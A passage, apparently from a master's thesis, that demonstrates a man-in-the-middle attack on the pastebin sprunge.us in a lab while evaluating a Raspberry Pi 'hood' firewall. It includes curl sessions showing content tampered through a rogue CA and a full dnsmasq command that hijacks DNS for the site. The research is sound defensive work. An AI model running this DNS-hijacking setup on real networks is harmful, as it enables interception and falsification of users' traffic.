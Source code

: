 \documentclass[mscthesis]{usiinfthesis}
\begin{document}
\paragraph{}
Following records show what happened under attack: The posted text looks correct to the victim but looks different to other person.

\begin{lstlisting}[language={},frame=single,breaklines=true,postbreak=\mbox{\textcolor{red}{$\hookrightarrow$}\space}]
# post text when CA is doing MITM attack, without hood
- Computer 2, Terminal 1
> echo "Thank you very much for the feedback. Your suggestion on X sounds legit. I will make X able to Y after I finished Z. I will send you another email once I finished related tasks." | curl -sS --cacert mitmproxy-ca-cert.pem -F 'sprunge=<-' https://sprunge.us
http://sprunge.us/ARbKPO
> curl -sS --cacert mitmproxy-ca-cert.pem https://sprunge.us/ARbKPO
Thank you very much for the feedback. Your suggestion on X sounds legit. I will make X able to Y after I finished Z. I will send you another email once I finished related tasks.
# The result looks correct to the victim
- Computer 1, Terminal 3
> curl https://sprunge.us/ARbKPO
Who do you think you are? How dare you to give me suggestions like this? Your naive ideas will never work. You have been blocked. *NEVER* send me emails again.
# However, the result looks different to other person
\end{lstlisting}

\subsubsection{With MITM attack by DNS hijacking, with "hood" protection}
\paragraph{}
Next, test what happens to the victim with "hood" firewall. Steps are following. 1. Connect Raspberry Pi to computer by USB cable 2. Disconnect the Ethernet cable from computer 2 and connect it to Raspberry Pi. 3. Use following commands to give direct access to other websites but still attacking the website sprunge.us.
\begin{lstlisting}[language={},frame=single,breaklines=true,postbreak=\mbox{\textcolor{red}{$\hookrightarrow$}\space}]
- Computer 1, Terminal 3
> sudo kill $(ps -ef |grep dnsmasq|grep yongbin -m 1|sed "s/\w* *//"|cut -d " " -s -f 1)
> sudo /usr/sbin/dnsmasq --conf-file=/dev/null --no-hosts --no-resolv --keep-in-foreground --interface=eno1 --except-interface=lo --clear-on-reload --strict-order --listen-address=192.168.22.1 --bind-interfaces --no-poll --address=/sprunge.us/192.168.22.1 --server=1.1.1.1 --cache-size=0  --dhcp-range=192.168.22.1,192.168.22.255,255.255.255.0,400w --dhcp-authoritative --dhcp-leasefile=/tmp/yongbin.lease --dhcp-option=option:dns-server,192.168.22.1 --dhcp-option=3,192.168.22.1 --log-queries --log-facility=-
\end{lstlisting}
\end{document}
